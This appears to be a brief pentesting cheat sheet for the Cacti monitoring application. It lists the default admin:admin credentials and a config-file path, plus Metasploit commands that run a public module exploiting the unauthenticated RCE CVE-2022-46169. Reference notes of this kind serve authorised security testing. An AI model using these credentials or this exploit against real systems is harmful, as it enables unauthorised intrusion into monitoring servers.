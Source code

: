 ```yaml
---
title: Cacti Pentesting
description: Cacti is a web-based network monitoring, performance, fault and configuration management framework designed as a front-end application.
tags:
    - Web
refs:
    - https://pentest-tools.com/vulnerabilities-exploits/cacti-remote-code-execution_CVE-2022-46169
date: 2023-05-02
draft: false
---
```


## Default Credentials

```bash
admin:admin
```

<br />

## Common Directories

```bash
/include/config.php
```

<br />

## Remote Code Execution (RCE) CVE-2022-46169

Reference: [https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/)

```bash
msfconsole
msf> use exploit/linux/http/cacti_unauthenticated_cmd_injection
msf> (set options...)
msf> run
```

Also we can refer to [Exploit DB](https://www.exploit-db.com/exploits/51166).